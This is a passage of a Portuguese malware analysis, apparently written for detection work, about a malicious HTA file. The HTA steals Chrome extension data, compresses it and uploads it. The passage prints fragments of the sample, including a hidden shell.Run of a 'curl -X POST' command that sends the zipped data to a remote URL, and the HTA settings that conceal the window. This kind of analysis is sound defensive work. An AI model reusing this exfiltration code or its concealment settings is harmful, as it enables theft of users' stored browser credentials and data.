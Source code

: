 ```sh
            curlCommand = "cmd /c curl -X POST -F ""file=@" & tempZip & """ " & uploadUrl
            shell.Run curlCommand, 0, True
        Else

         End If
        window.close
    End Sub

  </script>
</head>
<body></body>
</html>
```

Primeiro, vamos detalhar as partes relevantes do que esse arquivo faz e depois vamos identificar logs que contribuam para detecção desse cenário.

### 3.1. Overview

Obviamente esse é um código malicioso em forma de aplicação HTA (HTML Application) que rouba dados locais do navegador Chrome e envia os dados para um servidor remoto. 

Este `.hta` faz o seguinte:

- Executa silenciosamente (minimizado, sem barra de título, fora da tela).
- Rouba dados das extensões do Chrome (para potenciais navegadores que armazenam dados de senhas, cartões e que mais dá pra salvar no navegador).
- Compacta tudo em um `.zip`.
- Envia para um servidor remoto via `curl -X POST`.

### 3.2. Header

```vb {linenos=table linenostart=5}
<HTA:APPLICATION
  ID="Verification"
  BORDER="none"
  BORDERSTYLE="none"
  CAPTION="no"
  SHOWINTASKBAR="no"
  SINGLEINSTANCE="yes"
  WINDOWSTATE="minimize"
/>
```
Esconde a janela, não aparece na barra de tarefas e minimiza automaticamente. Isso permite que o HTA execute sem alertar visualmente o usuário.

### 3.3. Início do VBScript

```vb {linenos=table linenostart=18}
Dim shell, fso, appData, targetDir, scriptPath, tempZip, userProfile
Dim chromeRoot, profileDirs, folder, uploadUrl, tempCopyDir
```
Declaração das variáveis usadas na lógica do malware.
